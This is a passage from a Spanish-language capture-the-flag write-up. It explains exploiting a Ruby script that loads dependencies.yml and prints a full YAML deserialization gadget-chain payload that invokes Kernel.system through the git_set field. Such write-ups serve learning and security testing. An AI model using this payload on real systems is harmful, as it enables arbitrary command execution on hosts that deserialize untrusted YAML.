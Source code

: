 ```bash
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Por lo que entiendo, este script en **Ruby**, utiliza un archivo llamado **dependencies.yml** para poder instalar o actualizar la versión de **Ruby** creo.

Dicho archivo de **.yml** es creado con la **librería YAML**, entonces vamos a buscar un Exploit para **YAML**.

<h2 id="yaml">Aplicando YAML Deserialization Attack</h2>

Encontré algo llamado **YAML Deserialization**:

| **YAML Deserialization** |
|:-----------:|
| *Se pueden crear payloads personalizados utilizando módulos YAML de Python como PyYAML o ruamel.yaml. Estos payloads pueden explotar vulnerabilidades en sistemas que deserializan entradas no confiables sin una sanitización adecuada.* |

Para más información:
* https://book.hacktricks.xyz/v/es/pentesting-web/deserialization/python-yaml-deserialization

<br>

Pero la siguiente página lo explica mejor:
* https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

En resumen, vamos a utilizar la **librería YAML** para ejecutar código malicioso, al momento de que se valide el script **dependencies.yml**. Para hacer esto, debemos crear un archivo del mismo nombre y poner lo siguiente:
```bash
  !ruby/object:Gem::Installer
     i: x
  !ruby/object:Gem::SpecFetcher
     i: y
  !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve
```
Ahora, el que hará la movida para ejecutar código, será este **git_set:**.
